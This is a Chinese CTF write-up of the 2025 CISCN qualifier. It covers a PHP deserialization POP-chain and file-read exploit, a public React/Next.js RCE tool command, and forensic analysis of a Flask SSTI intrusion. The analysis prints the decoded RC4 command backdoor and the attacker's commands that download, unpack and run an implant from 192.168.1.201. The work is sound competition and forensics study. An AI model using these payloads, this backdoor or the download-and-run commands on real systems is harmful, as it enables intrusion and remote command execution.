




# 【难】【2025-CCB-CISCN-初赛】部分题目 WriteUp

## 前言

**题目归档链接**：[https://pan.chuzoux.top/OneDrive%20E3/CTF/CTF-Archives/2025-CCB-CISCN-Quals](https://pan.chuzoux.top/OneDrive%20E3/CTF/CTF-Archives/2025-CCB-CISCN-Quals)
 
特别感谢 **CTF-Archives** 团队对题目的收集归档
::github{repo="CTF-Archives/2025-CCB-CISCN-Quals"}
标题格式为 `题目名称 | 本题解出数`
## Web安全

### hellogate | 1187

#### 第一步：使用burp suite直接访问

我们查看到数据包内的最后含有php代码片段
（其实将图片下载下来 然后用010 editor打开也能看到）

```php
<?php
error_reporting(0);
class A {
    public $handle;
    public function triggerMethod() {
        echo "" . $this->handle; 
    }
}
class B {
    public $worker;
    public $cmd;
    public function __toString() {
        return $this->worker->result;
    }
}
class C {
    public $cmd;
    public function __get($name) {
        echo file_get_contents($this->cmd);
    }
}
$raw = isset($_POST['data']) ? $_POST['data'] : '';
header('Content-Type: image/jpeg');
readfile("muzujijiji.jpg");
highlight_file(__FILE__);
$obj = unserialize($_POST['data']);
$obj->triggerMethod();

```
#### 第二步：分析代码漏洞

一个简单的php反序列化漏洞+文件包含漏洞

我们最后的目的是file_get_contents

于是反推链子  C::__get（C::file_get_contents） -> B::__toString -> A::triggerMethod

编写 payload

```php
<?php

error_reporting(0);

class A {
    public $handle;
    public function triggerMethod() {
        echo "" . $this->handle;
    }
}

class B {
    public $worker;
    public $cmd;
    public function __toString() {
        return $this->worker->result;
    }
}
class C {
    public $cmd;
    public function __get($name) {
        echo file_get_contents($this->cmd);
    }
}

// $raw = isset($_POST['data']) ? $_POST['data'] : '';
// header('Content-Type: image/jpeg');
// readfile("muzujijiji.jpg");
// highlight_file(__FILE__);

$a = new A;
$a ->handle=new B;
$a ->handle->worker=new C;
$a ->handle->worker->cmd = "{文件包含}";
echo urlencode(serialize($a));

//$obj = $a;
//$obj->triggerMethod();
```

我们就可以调用file_get_contents();函数了

同时利用文件包含漏洞进行测试
cmd="php://filter/read=convert.base64-encode/resource=index.php"

在得到的数据包末尾发现base64数据
```txt
PD9waHAKZXJyb3JfcmVwb3J0aW5nKDApOwpjbGFzcyBBIHsKICAgIHB1YmxpYyAkaGFuZGxlOwogICAgcHVibGljIGZ1bmN0aW9uIHRyaWdnZXJNZXRob2QoKSB7CiAgICAgICAgZWNobyAiIiAuICR0aGlzLT5oYW5kbGU7IAogICAgfQp9CmNsYXNzIEIgewogICAgcHVibGljICR3b3JrZXI7CiAgICBwdWJsaWMgJGNtZDsKICAgIHB1YmxpYyBmdW5jdGlvbiBfX3RvU3RyaW5nKCkgewogICAgICAgIHJldHVybiAkdGhpcy0+d29ya2VyLT5yZXN1bHQ7CiAgICB9Cn0KY2xhc3MgQyB7CiAgICBwdWJsaWMgJGNtZDsKICAgIHB1YmxpYyBmdW5jdGlvbiBfX2dldCgkbmFtZSkgewogICAgICAgIGVjaG8gZmlsZV9nZXRfY29udGVudHMoJHRoaXMtPmNtZCk7CiAgICB9Cn0KJHJhdyA9IGlzc2V0KCRfUE9TVFsnZGF0YSddKSA/ICRfUE9TVFsnZGF0YSddIDogJyc7CmhlYWRlcignQ29udGVudC1UeXBlOiBpbWFnZS9qcGVnJyk7CnJlYWRmaWxlKCJtdXp1amlqaWppLmpwZyIpOwpoaWdobGlnaHRfZmlsZShfX0ZJTEVfXyk7CiRvYmogPSB1bnNlcmlhbGl6ZSgkX1BPU1RbJ2RhdGEnXSk7CiRvYmotPnRyaWdnZXJNZXRob2QoKTs=
```
解码
```php
<?php
error_reporting(0);
class A {
    public $handle;
    public function triggerMethod() {
        echo "" . $this->handle; 
    }
}
class B {
    public $worker;
    public $cmd;
    public function __toString() {
        return $this->worker->result;
    }
}
class C {
    public $cmd;
    public function __get($name) {
        echo file_get_contents($this->cmd);
    }
}
$raw = isset($_POST['data']) ? $_POST['data'] : '';
header('Content-Type: image/jpeg');
readfile("muzujijiji.jpg");
highlight_file(__FILE__);
$obj = unserialize($_POST['data']);
$obj->triggerMethod();
```

可得存在此漏洞

#### 第三步：猜测读取flag文件

通过反序列化和文件包含漏洞  
我们尝试读取flag

对flag.php尝试 ——>无数据返回
对/flag尝试 ——>无数据返回

尝试路径穿越

对../flag尝试  ——> 无数据返回
对../../flag尝试  ——> 无数据返回
对../../../flag尝试  ——>返回base64数据 数据如下

```txt
ZmxhZ3szMWI5ZjQ4MS0yMmMzLTQzMjYtYjM3NS1jMGRiYmY2Nzc5N2N9
```
解码得到flag
```
flag{31b9f481-22c3-4326-b375-c0dbbf67797c}
```

### redjs | 720

> 小明在服务器上部署了一个常用的框架，请你帮忙看看是否有问题。

#### 第一步：分析得到框架版本找到CVE

打开网站发现大大的nextjs 发现网站存在 CVE-2025-55182 漏洞

#### 第二部：利用工具进行rce获取flag

::github{repo="sangleshubham/React-Security-CVE-2025-55182-Exploit"}

```shell
node .\react2shell.js url "cat /flag"
```



直接得到flag

```
flag{6e53a51c-286d-47e9-924f-c605be8ad31b}
```

## 流量分析

### SnakeBackdoor-1 | 1435

> 近期发现公司网络出口出现了异常的通信，现需要通过分析出口流量包，对失陷服务器进行定位。现在需要你从网络攻击数据包中找出漏洞攻击的会话，分析会话编写exp或数据包重放，查找服务器上安装的后门木马，然后分析木马外联地址和通信密钥以及木马启动项位置。 攻击者爆破成功的后台密码是什么？，结果提交形式：flag{xxxxxxxxx}

#### 第一步：找到相关流量包


找到http协议中 含有password字段的流量包
我们不难发现 攻击者使用字典暴力破解密码 只需要找到登录成功的流量包即可

#### 第二部：找到登录成功特征


如图中的对/admin目录的访问可知此时已经登录成功并进行操作 
于是我们在此寻找登录成功的发包即可

#### 第三步：找到登录成功的发包



我们可以得知 此处登录成功后 黑客被重定向到/admin/panel 下
分解post请求数据包即可获得密码


Form item: "password" = "zxcvbnm123"

```
flag{zxcvbnm123}
```

### SnakeBackdoor-2 | 1314

> 攻击者通过漏洞利用获取Flask应用的 `SECRET_KEY` 是什么，结果提交形式：flag{xxxxxxxxxx}

#### 第一步：定位到相关数据包

直接对http协议数据包进行检索 搜索SECRET_KEY字段
找到唯一数据包No.28825

#### 第二步：分解数据包



```html
<div style="padding:1rem;border:1px solid #ddd">&lt;Config {&#39;DEBUG&#39;: True, &#39;TESTING&#39;: False, &#39;PROPAGATE_EXCEPTIONS&#39;: None, &#39;SECRET_KEY&#39;: &#39;c6242af0-6891-4510-8432-e1cdf051f160&#39;, &#39;SECRET_KEY_FALLBACKS&#39;: None, &#39;PERMANENT_SESSION_LIFETIME&#39;: datetime.timedelta(days=31), &#39;USE_X_SENDFILE&#39;: False, &#39;TRUSTED_HOSTS&#39;: None, &#39;SERVER_NAME&#39;: None, &#39;APPLICATION_ROOT&#39;: &#39;/&#39;, &#39;SESSION_COOKIE_NAME&#39;: &#39;session&#39;, &#39;SESSION_COOKIE_DOMAIN&#39;: None, &#39;SESSION_COOKIE_PATH&#39;: None, &#39;SESSION_COOKIE_HTTPONLY&#39;: True, &#39;SESSION_COOKIE_SECURE&#39;: False, &#39;SESSION_COOKIE_PARTITIONED&#39;: False, &#39;SESSION_COOKIE_SAMESITE&#39;: None, &#39;SESSION_REFRESH_EACH_REQUEST&#39;: True, &#39;MAX_CONTENT_LENGTH&#39;: None, &#39;MAX_FORM_MEMORY_SIZE&#39;: 500000, &#39;MAX_FORM_PARTS&#39;: 1000, &#39;SEND_FILE_MAX_AGE_DEFAULT&#39;: None, &#39;TRAP_BAD_REQUEST_ERRORS&#39;: None, &#39;TRAP_HTTP_EXCEPTIONS&#39;: False, &#39;EXPLAIN_TEMPLATE_LOADING&#39;: False, &#39;PREFERRED_URL_SCHEME&#39;: &#39;http&#39;, &#39;TEMPLATES_AUTO_RELOAD&#39;: None, &#39;MAX_COOKIE_SIZE&#39;: 4093, &#39;PROVIDE_AUTOMATIC_OPTIONS&#39;: True}&gt;</div>
```

得到SECRET_KEY：c6242af0-6891-4510-8432-e1cdf051f160

flag{c6242af0-6891-4510-8432-e1cdf051f160}

### SnakeBackdoor-3 | 953

> 攻击者植入的木马使用了加密算法来隐藏通讯内容。请分析注入Payload，给出该加密算法使用的**密钥字符串(Key)** ，结果提交形式：flag{xxxxxxxx}

#### 第一步：找到传输木马文件的数据包



通过这个数据包我们可以发现 这个网站的框架为Python Flask/Jinja2 模板
黑客在尝试 **Python Flask/Jinja2 模板注入 (SSTI)** 攻击

于是我们需要 寻找类似于exec类似的函数来执行相应内容

经过检索 我们大概确定了木马植入的数据包 接下来就要对数据包内容进行解析

#### 第二步：检查数据包木马内容

提取payload
```python
preview_content={{url_for.__globals__['__builtins__']['exec']("import base64; exec(base64.b64decode('XyA9IGxhbWJkYSBfXy..........'))", {'request':url_for.__globals__['request'],'app':get_flashed_messages.__globals__['current_app']})}}
```

将base64.b64decode()中的内容进行base64解码
```python
_ = lambda __ : __import__('zlib').decompress(__import__('base64').b64decode(__[::-1]));
exec((_)(b'=c4CU3xP+//vPzftv8gri635a0...........'))
```

我们可以看到这边如何处理那一大堆乱码

```python
_ = lambda __ : __import__('zlib').decompress(__import__('base64').b64decode(__[::-1]));
exec((_)
```

其中`[::-1]`表示对字符串反转 然后对反转后的字符串进行`base64.decode`base64解码 然后  Zlib 解压

于是我们对一下乱七八糟一片进行解码


然后我们得到新的一大堆字符串
```
=Mh9tF+P77///Ifl............
```
由于等号前置 于是 我们再次猜测解码方式和上方一样
再次进行多次解码即可得到攻击代码
```python
global exc_class
global code
import os,binascii
exc_class, code = app._get_exc_class_and_code(404)
RC4_SECRET = b'v1p3r_5tr1k3_k3y'
def rc4_crypt(data: bytes, key: bytes) -> bytes:
	S = list(range(256))
	j = 0
	for i in range(256):
		j = (j + S[i] + key[i % len(key)]) % 256
		S[i], S[j] = S[j], S[i]
	i = j = 0
	res = bytearray()
	for char in data:
		i = (i + 1) % 256
		j = (j + S[i]) % 256
		S[i], S[j] = S[j], S[i]
		res.append(char ^ S[(S[i] + S[j]) % 256])
	return bytes(res)
def backdoor_handler():
	if request.headers.get('X-Token-Auth') != '3011aa21232beb7504432bfa90d32779':
		return "Error"
	enc_hex_cmd = request.form.get('data')
	if not enc_hex_cmd:
		return ""
	try:
		enc_cmd = binascii.unhexlify(enc_hex_cmd)
		cmd = rc4_crypt(enc_cmd, RC4_SECRET).decode('utf-8', errors='ignore')
		output_bytes = getattr(os, 'popen')(cmd).read().encode('utf-8', errors='ignore')
		enc_output = rc4_crypt(output_bytes, RC4_SECRET)
		return binascii.hexlify(enc_output).decode()
	except:
		return "Error"
app.error_handler_spec[None][code][exc_class]=lambda error: backdoor_handler()
```

```
1. 编写解码脚本思路：

2. 字符串反转 ([::-1])：把字符串倒过来。

3. Base64 解码 (b64decode)：将倒序后的字符串进行 Base64 解码。

4. Zlib 解压 (decompress)：将解码后的二进制数据进行解压，得到原始代码。
```

:::note[这里提供一个大佬写的脚本]

<br>

```python
import base64
import zlib
import re
import os
import binascii
 
# Embedded Payload (extracted from original challenge)
PAYLOAD = b'=c4CU3xP+//vPzftv8gri63......'
 
def decrypt_layer(data):
    """
    解密单层逻辑:
    1. 清理空白字符
    2. 字符串逆序 (Reverse)
    3. Base64 解码
    4. Zlib 解压缩
    """
    # 清理可能存在的换行和空格
    data = data.replace(b'\n', b'').replace(b'\r', b'').replace(b' ', b'')
    
    # 逆序
    reversed_data = data[::-1]
    
    # Base64 解码
    try:
        b64_decoded = base64.b64decode(reversed_data)
    except Exception as e:
        raise ValueError(f"Base64 decode failed: {e}")
    
    # Zlib 解压
    try:
        decompressed = zlib.decompress(b64_decoded)
    except Exception as e:
        # 尝试跳过头部或使用 raw deflate
        try:
            decompressed = zlib.decompress(b64_decoded, -15)
        except:
            raise ValueError(f"Zlib decompress failed: {e}")
            
    return decompressed
 
def analyze_final_code(code_str):
    """分析最终解密出的代码，提取 Key 和 Token"""
    print("\n" + "="*50)
    print("【最终代码分析 / Final Code Analysis】")
    print("="*50)
    
    print(code_str)
    print("="*50 + "\n")
 
    # 简单的特征提取
    lines = code_str.split('\n')
    for line in lines:
        line = line.strip()
        if "RC4_SECRET" in line or "key" in line.lower():
            print(f"[+] Found Key info: {line}")
        if "X-Token-Auth" in line:
            print(f"[+] Found Auth Token: {line}")
 
def main():
    print(f"[*] 开始解密内嵌 Payload")
    print(f"[+] 初始 Payload 长度: {len(PAYLOAD)}")
    
    current_payload = PAYLOAD
    layer_count = 0
    
    while True:
        layer_count += 1
        print(f"[*] 正在解密第 {layer_count} 层...", end='\r')
        
        try:
            # 解密当前层
            decrypted_bytes = decrypt_layer(current_payload)
            decrypted_code = decrypted_bytes.decode('utf-8')
            
            # 检查是否有下一层嵌套
            # 模式: exec((_)(b'...'))
            match = re.search(r"exec\(\(_\)\(b'(.+?)'\)\)", decrypted_code)
            
            if match:
                # 提取下一层的 payload，继续循环
                current_payload = match.group(1).encode('utf-8')
            else:
                # 没有匹配到 exec((_)(b'...'))，说明到达最后一层
                print(f"\n[+] 解密完成！共解开 {layer_count} 层嵌套。")
                analyze_final_code(decrypted_code)
                break
                
        except Exception as e:
            print(f"\n[-] 在第 {layer_count} 层解密失败: {e}")
            break
 
if __name__ == "__main__":
    main()
```

大佬的WP：[https://blog.csdn.net/qq_64028228/article/details/156423776](https://blog.csdn.net/qq_64028228/article/details/156423776)

:::
#### 第三步：审计代码 找到密钥字符串(Key)

在攻击代码中 我们找到
```python
RC4_SECRET = b'v1p3r_5tr1k3_k3y'
```
根据下方对rc4_crypt函数的调用
发现**密钥字符串(Key)** 就是v1p3r_5tr1k3_k3y

`flag{v1p3r_5tr1k3_k3y}`

### SnakeBackdoor-4 | 847

> 攻击者上传了一个二进制后门，请写出**木马进程执行的本体文件**的名称，结果提交形式：flag{xxxxx}，仅写文件名不加路径

#### 第一步：根据**SnakeBackdoor-3**中分析的后门代码

```python
global exc_class
global code
import os,binascii
exc_class, code = app._get_exc_class_and_code(404)
RC4_SECRET = b'v1p3r_5tr1k3_k3y'
def rc4_crypt(data: bytes, key: bytes) -> bytes:
	S = list(range(256))
	j = 0
	for i in range(256):
		j = (j + S[i] + key[i % len(key)]) % 256
		S[i], S[j] = S[j], S[i]
	i = j = 0
	res = bytearray()
	for char in data:
		i = (i + 1) % 256
		j = (j + S[i]) % 256
		S[i], S[j] = S[j], S[i]
		res.append(char ^ S[(S[i] + S[j]) % 256])
	return bytes(res)
def backdoor_handler():
	if request.headers.get('X-Token-Auth') != '3011aa21232beb7504432bfa90d32779':
		return "Error"
	enc_hex_cmd = request.form.get('data')
	if not enc_hex_cmd:
		return ""
	try:
		enc_cmd = binascii.unhexlify(enc_hex_cmd)
		cmd = rc4_crypt(enc_cmd, RC4_SECRET).decode('utf-8', errors='ignore')
		output_bytes = getattr(os, 'popen')(cmd).read().encode('utf-8', errors='ignore')
		enc_output = rc4_crypt(output_bytes, RC4_SECRET)
		return binascii.hexlify(enc_output).decode()
	except:
		return "Error"
app.error_handler_spec[None][code][exc_class]=lambda error: backdoor_handler()
```

#### 第二步：找到相关攻击数据包

我们发现当http协议头中`X-Token-Auth=3011aa21232beb7504432bfa90d32779`时 才能使用后门
于是我们筛选包含`X-Token-Auth=3011aa21232beb7504432bfa90d32779`的数据包


我们发现了多个相关的数据包 其data内容分别是
```shell
Form item: "data" = "a6bc"
Form item: "data" = "a3ab330fb285"
Form item: "data" = "acad614ef3d82c8445d275713899f04d0d3819fc3726cf57634b189e0e95cc1f93e57656105246251f453a8396a43a6534"
Form item: "data" = "bab6694ba3c938e64b8d257b7cccee460f6347f4363ed21c300c099f129b99028eb57408024e1c32061a"
Form item: "data" = "a2ae330da7846599188b26257a88f10b50790cb47e6a97177e1053c351"
Form item: "data" = "acb07e4db7c93ece4bcc37246687ae0649614caa3430ce4b"
Form item: "data" = "e0ac7e52fc996cc2038c2d7a3899ed"
```

#### 第三步：对数据包中data进行解密

根据攻击脚本 我们编写data解码程序

```python
import binascii
import sys

RC4_SECRET = b'v1p3r_5tr1k3_k3y'

def rc4_crypt(data: bytes, key: bytes) -> bytes:
    S = list(range(256))
    j = 0
    for i in range(256):
        j = (j + S[i] + key[i % len(key)]) % 256
        S[i], S[j] = S[j], S[i]
    i = j = 0
    res = bytearray()
    for char in data:
        i = (i + 1) % 256
        j = (j + S[i]) % 256
        S[i], S[j] = S[j], S[i]
        res.append(char ^ S[(S[i] + S[j]) % 256])
    return bytes(res)

def safe_decryptor():
    while True:
        print("\n请输入要解密的字符串:")
        hex_input = input("> ").strip()
        if not hex_input:
            continue
        cipher_bytes = binascii.unhexlify(hex_input)
        decrypted_bytes = rc4_crypt(cipher_bytes, RC4_SECRET)
        plaintext = decrypted_bytes.decode('utf-8')
        print("-" * 20 + " 解密结果" + "-" * 20)
        print(f"\033[1;32m{plaintext}\033[0m")
        print("-" * 60)

if __name__ == "__main__":
    safe_decryptor()
```

将data数据依次解码得到所有的命令

```shell
id
ls -al
curl 192.168.1.201:8080/shell.zip -o /tmp/123.zip
unzip -P nf2jd092jd01 -d /tmp /tmp/123.zip
mv /tmp/shell /tmp/python3.13
chmod +x /tmp/python3.13
/tmp/python3.13
```

#### 第四步：分析执行代码内容 找到木马文件

依次的作用为
1. `id`查看所在用户权限
2. `ls -al` 确认目录环境
3. `curl 192.168.1.201:8080/shell.zip -o /tmp/123.zip`下载木马文件 输出到`/tmp/123.zip`
4. `unzip -P nf2jd092jd01 -d /tmp /tmp/123.zip`使用密码`nf2jd092jd01`将`123.zip`解压出来
5. `mv /tmp/shell /tmp/python3.13` 将`shell`文件重命名为`python3.13`伪装成python文件 藏在/tmp目录下
6. `chmod +x /tmp/python3.13` 给予`python3.13`文件权限
7. `/tmp/python3.13` 运行伪装成`python3.13`的木马文件

得出**木马进程执行的本体文件**

`flag{python3.13}`

---
## 结语

剩下的我就不会了 /(ㄒoㄒ)/~~ （赛后没看WP，在准备期末考试）
有时间看懂了WP再进行更新

这次比赛只做出了两道Web和两道流量分析 

国赛孤军奋战这一块
​个人排名1400/8000
​队伍排名1200/3000

其中Redjs那个题 是因为最近博客服务器中存在CVE漏洞导致服务器被黑才了解那个CVE

​服务器因cve失陷 比赛因cve拿分 
